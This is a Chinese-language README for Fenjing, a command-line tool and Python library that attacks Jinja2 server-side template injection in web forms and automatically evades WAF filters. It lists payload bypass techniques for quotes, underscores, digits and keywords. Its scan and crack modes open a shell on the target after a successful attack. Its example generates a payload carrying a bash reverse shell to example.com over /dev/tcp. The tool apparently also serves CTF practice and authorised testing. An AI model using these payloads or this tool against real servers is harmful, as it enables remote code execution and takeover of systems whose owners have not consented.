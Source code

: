 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![CTFShow web365](assets/demo.webp)

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing scan --url 'http://xxx/'
# 也可以使用crack功能手动指定form
# 
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing scan --url 'http://xxx/'
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing scan --url 'http://xxx/'
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing scan --url 'http://xxx/'
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`

```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.
```

### 作为python库使用

参考[example.py](fenjing/example.py)

```python
from fenjing import exec_cmd_payload

import logging

logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)

```


